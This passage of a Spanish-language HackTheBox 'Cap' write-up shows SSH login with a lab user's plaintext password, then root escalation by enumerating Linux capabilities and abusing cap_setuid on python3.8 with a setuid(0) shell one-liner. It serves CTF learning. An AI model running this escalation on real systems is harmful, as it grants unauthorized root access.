 pero vamos a probar por ssh ya que el puerto estaba abierto.

```
ssh nathan@10.10.10.245
pass: Buck3tH4TF0RM3!
```

Vemops que las credenciales tambien funcionan para ssh y ya podemos ver la flag user.txt:

![Conexion por SSH](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/CAP/images/10.png)

## ELEVACION DE PRIVILEGIOS

una de las formas de escalar privilegios en linux, despues de permisos SID, sudo -l y otros son las capabilities:

**Las capabilities son como permisos especiales que se le otorga a un programa para que tengan ciertos privilegios sin necesidad de usar el usuario root o usar el comando sudo.
**

Vamos a listar las capabilities del sistema

```
getcap -r / 2>/dev/null

-r: deforma recursiva
/: ruta en este caso la raiz de todo el sistema

```

![Enumeracion de capabilities](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/CAP/images/11.png)

La capabilitie que mas nos interesa es la **cap_setuid** que nos permite ejecutar el programa con privilegios del administrador sea el o no el propietario.

Vemos que el programa python 3.8 tiene esa capabilitie en tonces podriamos spawnearnos una shell mediante python, solo debemos especificar en el programa el **setuid(0)**

```
./python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

y seriamos root y podemos ver la flag:

![Abuso de capabilities](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/CAP/images/12.png)
